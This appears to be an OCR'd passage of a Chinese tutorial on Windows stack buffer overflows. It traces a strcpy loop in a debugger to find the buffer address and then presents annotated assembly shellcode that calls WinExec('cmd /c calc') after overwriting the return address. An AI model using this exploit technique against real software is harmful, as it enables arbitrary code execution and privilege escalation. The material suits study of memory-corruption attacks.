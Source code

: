 我们可以通过跟踪代码的方式来获得所需要的地址。

首先通过debugger加载目标程序，然后开始单步执行，不过令人头痛的是开始执行的时候会有一系列和我们代码不相关的系统函数调用。

或者在程序运行时监控程序的stack，跟踪到出现我们输入的字符串的下一句。

不管用哪个方法，我们最终要找到类似于如下的代码就算达到目的了：

```
:00401045 8A08 mov cl, byte ptr [eax]
:00401047 880C02 mov byte ptr [edx+eax], cl
:0040104A 40 inc eax
:0040104B 84C9 test cl, cl
:0040104D 75F6 jne 00401045
```

这个是我们所要寻找的strcpy函数，进入函数后，首先读入EAX指向的内存的字节，下一行代码再写入到EDX+EAX的地址去，通过读寄存器，我们可以获得这个缓存的地址是0x0012fec0。

写一段shellcode也是一门艺术。

不同的操作系统使用不同的系统函数，就需要不同的方法达到我们的目的。

最简单的情况下，我们什么都不做，只是改写返回地址，导致程序出现偏离预计的行为。

事实上，攻击者可以执行任意的代码，唯一的约束是可使用的空间大小（事实上这一点也可以设法克服）和程序的访问权限。

在大部分情况下，缓冲溢出正是一种被用来获得超级用户权限、利用有缺陷的系统进行DOS攻击的方法。

## 执行处理命令

例如，创建一段shellcode允许执行命令行处理程序（WinNT/2000下的cmd.exe）。

通过调用系统函数WinExec或者CreateProcess就可以实现这个目标。

调用WinExec的代码如下：

```
WinExec(command, state)
```

为了实现我们的目标，women需要传递这样的参数：

- 将我们需要传入的参数字符串压栈，也就是“cmd /c calc”.

- 将第二个参数压栈，这儿我们不需要内容，就压入NULL（0）。（从右向左的参数调用规则，先压入第二个参数）

- 将刚刚压入的“cmd /c calc”的地址作为第一个参数压栈。

- 调用WinExec系统函数.

### 实现函数

下面的代码是完成这个目标的一个实现：

```
sub esp, 28h ; 3 bytes
jmp calling ; 2 bytes
par:
call WinExec ; 5 bytes
push eax ; 1 byte
call ExitProcess ; 5 bytes
calling:
xor eax, eax ; 2 bytes
push eax ; 1 byte
call par ; 5 bytes
.string cmd /c calc|| ; 13 bytes
```

